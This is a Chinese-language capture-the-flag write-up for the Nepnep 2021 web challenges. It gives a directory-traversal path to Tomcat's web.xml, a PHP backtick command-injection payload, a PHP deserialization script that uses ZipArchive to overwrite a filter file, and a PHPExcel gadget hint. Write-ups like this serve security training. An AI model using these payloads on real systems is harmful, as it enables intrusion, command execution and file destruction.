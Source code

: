 ## Nepnep 2021

小评价:题目原题比较多，payload好多通杀。不算上非预期的话，题目质量挺好的。

## 0x01 Easy_Tomcat  

注册源码读取，头像老梗了。

tomcat的常用目录

```
static/img/../../WEB-INF/web.xml
```



```
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <servlet>
        <servlet-name>LoginServlet</servlet-name>
        <servlet-class>javademo.LoginServlet</servlet-class>
    </servlet>
    <servlet>
        <servlet-name>RegisterServlet</servlet-name>
        <servlet-class>javademo.RegisterServlet</servlet-class>
    </servlet>
    <servlet>
        <servlet-name>AdminServlet</servlet-name>
        <servlet-class>javademo.AdminServlet</servlet-class>
    </servlet>
    <servlet>
        <servlet-name>InitServlet</servlet-name>
        <servlet-class>javademo.InitServlet</servlet-class>
        <load-on-startup>1</load-on-startup>

    </servlet>
    <servlet-mapping>
        <servlet-name>LoginServlet</servlet-name>
        <url-pattern>/LoginServlet</url-pattern>
    </servlet-mapping>
    <servlet-mapping>
        <servlet-name>RegisterServlet</servlet-name>
        <url-pattern>/RegisterServlet</url-pattern>
    </servlet-mapping>
    <servlet-mapping>
        <servlet-name>AdminServlet</servlet-name>
        <url-pattern>/AdminServlet</url-pattern>
    </servlet-mapping>
    <servlet-mapping>
        <servlet-name>InitServlet</servlet-name>
        <url-pattern>/InitServlet</url-pattern>
    </servlet-mapping>
</web-app>

```

## 0x02 little_trick

```
$nep=`$nep`;ls>z&len=7
```

我觉得这个解法太巧妙了，循环嵌套，直呼一个骚

## 0x03 梦里花开牡丹亭

```
<?php
class Game{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;
    public  $file;
    public  $filename;
    public  $content;
    public function __construct($file,$register,$filename,$content,$username,$password){
        $this->file=$file;
        $this->register=$register;
        $this->filename=$filename;
        $this->content=$content;
        $this->username=$username;
        $this->password=$password;
    }
}
class login{
    public $file;
    public $filename;
    public $content;
    public function __construct($file,$filename,$content){
        $this->file=$file;
        $this->filename=$filename;
        $this->content=$content;
    }
}
class Open{

}

$Open=new Open();
$a =new ZipArchive();
#$Game=new Game($Open,'admin','php://filter/read=convert.base64-encode/resource=shell','o\t /flag','admin','admin');
$Game = new Game($a,"admin","waf.txt",ZipArchive::OVERWRITE,"admin","admin");
echo base64_encode(serialize($Game));
```

## 0x04 faka

借鉴wmctf的一道题

```
http://ff4e4f5e-5a03-4a6f-867a-dcb9d63c3133.node1.hackingfor.fun/static/upload/tmp/a108d8667a0b3ba6/28f4af46bc614b6b.jpg
```

![image-20210325115316698](https://i.loli.net/2021/03/25/SUgExDMkH4LpT8e.png)

![image-20210327084534291](https://i.loli.net/2021/03/27/EwopYCR1aV7UDfT.png)

![image-20210327084826265](https://i.loli.net/2021/03/27/mzeAHxs7qnaFOGc.png)

只要满足图中的条件就可以触发__call函数了。

或者直接简化为

```
$a=new PHPExcel_CachedObjectStorage_SQLite($_DBHandle,'123');//触发output的call
```

简简单单的午饭。其他地方就不跟着分析，大家继续玩。

## 0x05 bbxhh_revenge  

php5之后加入的新特性，利用php自带的原生类反射，来达到命令执行。

https://www.php.net/manual/zh/reflectionfunction.invokeargs.php

![image-20210327101610082](https://i.loli.net/2021/03/27/2ZPGLflBDerUWQJ.png)

## 0x06 梦⾥花开牡丹亭  

php 反序列化中 原生类的利用。